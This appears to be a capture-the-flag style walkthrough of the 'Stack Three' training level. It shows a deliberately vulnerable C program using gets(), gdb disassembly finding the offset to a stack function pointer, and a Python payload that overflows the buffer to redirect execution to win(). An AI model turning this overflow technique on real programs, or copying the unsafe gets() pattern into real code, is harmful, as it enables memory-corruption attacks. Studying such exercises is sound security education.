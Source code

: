 # Stack Three

> Stack3 looks at environment variables, and how they can be set, and overwriting function pointers stored on the stack (as a prelude to overwriting the saved EIP)
>
>
>
> **Hints**
>
> * both gdb and objdump is your friend you determining where the win() function lies in memory.

## Source code

```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void win()
{
  printf("code flow successfully changed\n");
}

int main(int argc, char **argv)
{
  volatile int (*fp)();
  char buffer[64];

  fp = 0;

  gets(buffer);

  if(fp) {
      printf("calling function pointer, jumping to 0x%08x\n", fp);
      fp();
  }
}
```

There is a pointer `fp` which is set to 0. The program then jumps to the address in the `fp` pointer.

The `win` function is what we want to call. However it is not called by the `main` function.

Therefore we have to redirect program execution by overwriting the `fp` pointer.

In order to do that, we have to know the address of the `win` function.

```
(gdb) x win
0x8048424 <win>:        0x83e58955
```

So we set the value of `fp` to `0x08048424`.

Let's look at the program in `gdb`.

```
(gdb) disassemble main
Dump of assembler code for function main:
0x08048438 <main+0>:    push   ebp
0x08048439 <main+1>:    mov    ebp,esp
0x0804843b <main+3>:    and    esp,0xfffffff0
0x0804843e <main+6>:    sub    esp,0x60
0x08048441 <main+9>:    mov    DWORD PTR [esp+0x5c],0x0
0x08048449 <main+17>:   lea    eax,[esp+0x1c]
0x0804844d <main+21>:   mov    DWORD PTR [esp],eax
0x08048450 <main+24>:   call   0x8048330 <gets@plt>
0x08048455 <main+29>:   cmp    DWORD PTR [esp+0x5c],0x0
0x0804845a <main+34>:   je     0x8048477 <main+63>
0x0804845c <main+36>:   mov    eax,0x8048560
0x08048461 <main+41>:   mov    edx,DWORD PTR [esp+0x5c]
0x08048465 <main+45>:   mov    DWORD PTR [esp+0x4],edx
0x08048469 <main+49>:   mov    DWORD PTR [esp],eax
0x0804846c <main+52>:   call   0x8048350 <printf@plt>
0x08048471 <main+57>:   mov    eax,DWORD PTR [esp+0x5c]
0x08048475 <main+61>:   call   eax
0x08048477 <main+63>:   leave
0x08048478 <main+64>:   ret
```

We can see that the instruction at `main+57` is what sets up the function call.

```
0x08048471 <main+57>:   mov    eax,DWORD PTR [esp+0x5c]
0x08048475 <main+61>:   call   eax
```

Let's find the distance between the `buffer` and `fp`.

```
(gdb) p/d 0x5c - 0x1c
$1 = 64
```

Therefore we need 68 bytes in total, 64 bytes to fill the buffer and 4 bytes to overwrite the `fp` function pointer.

Note that the value is stored in little-endian.

## Exploit

```
$ python -c 'print "A"*64 + "\x24\x84\x04\x08"' | ./stack3
calling function pointer, jumping to 0x08048424
code flow successfully changed
```
